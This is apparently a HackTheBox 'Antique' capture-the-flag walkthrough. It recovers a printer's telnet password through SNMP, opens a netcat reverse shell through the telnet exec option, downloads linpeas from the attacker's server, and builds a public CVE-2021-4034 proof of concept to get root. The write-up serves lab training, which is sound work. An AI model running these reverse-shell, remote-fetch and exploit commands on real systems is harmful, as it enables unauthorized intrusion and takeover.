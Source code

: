 
# HackTheBox Antique Walkthrough

![](images/image-9.png)

Here's a result of the NMAP Scan.

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|\_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=6/12%Time=62A625D0%P=x86\_64-pc-linux-gnu%r(NULL
SF:,F,"\\nHP\\x20JetDirect\\n\\n")%r(GenericLines,19,"\\nHP\\x20JetDirect\\n\\nPas
SF:sword:\\x20")%r(tn3270,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(GetReq
SF:uest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(HTTPOptions,19,"\\nHP\\x2
SF:0JetDirect\\n\\nPassword:\\x20")%r(RTSPRequest,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(RPCCheck,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNS
SF:VersionBindReqTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNSStatusR
SF:equestTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Help,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(SSLSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(TerminalServerCookie,19,"\\nHP\\x20JetDirect\\n\\nPassword:
SF:\\x20")%r(TLSSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Kerbe
SF:ros,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(SMBProgNeg,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(X11Probe,19,"\\nHP\\x20JetDirect\\n\\nPasswor
SF:d:\\x20")%r(FourOhFourRequest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r
SF:(LPDString,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPSearchReq,19,
SF:"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPBindReq,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(SIPOptions,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x
SF:20")%r(LANDesk-RC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(TerminalSe
SF:rver,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(NCP,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(NotesRPC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20
SF:")%r(JavaRMI,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(WMSRequest,19,"
SF:\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(oracle-tns,19,"\\nHP\\x20JetDirect
SF:\\n\\nPassword:\\x20")%r(ms-sql-s,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")
SF:%r(afp,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(giop,19,"\\nHP\\x20JetD
SF:irect\\n\\nPassword:\\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/12%OT=23%CT=1%CU=38853%PV=Y%DS=2%DC=T%G=Y%TM=62A6267
OS:9%P=x86\_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

nmap -sU 10.10.11.107

PORT    STATE SERVICE
161/udp open  snmp

We have TCP port 23 open and UDP port 161 open.

telnet 10.10.11.107

![](images/image-2.png)

We need a password, the password might be sent over in clear text.

10.10.11.107 is connected to a HP JetDirect printer. I found a well written article about printer security. [https://www.irongeek.com/i.php?page=security/networkprinterhacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

I'm going to leverage snmpget to try and find a password.

snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135

snmp-get is returning something in hexadecimal. Lets convert it to ASCII and see if we find anything.

![](images/image-5.png)

We got a password! Lets telnet in and see what else we can do.

Telnet has an exec option enabled, we can execute commands. Lets try and get a reverse shell going.

I got a one liner from [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \[ip\] \[port\] >/tmp/f

We also need to start a netcat listener on our kali machine.

nc -lnvp 4444

[![](images/image-8-1024x661.png)]

We're in and we have our first user flag!

As always, the next step is to run linpeas to see what we can exploit to escalate privilege to root.

python -m SimpleHTTPServer 6666

And on the victim machine.

wget 10.10.14.19:6666/linpeas.sh
./linpeas.sh

[![](images/image-9-1024x579.png)]

The machine is vulnerable to CVE-2021-4034

Clone a POC on your kali machine.

git clone https://github.com/berdav/CVE-2021-4034.git

Again, run a simplehttpserver.

python -m SimpleHTTPServer 6666

This time we want to fetch everything in the folder so we'll use a recursive option.

wget -r 10.10.14.19:6666
make
./cve-2021-4034

make and run the CVE.

[![](images/image-10.png)]

And we're root!
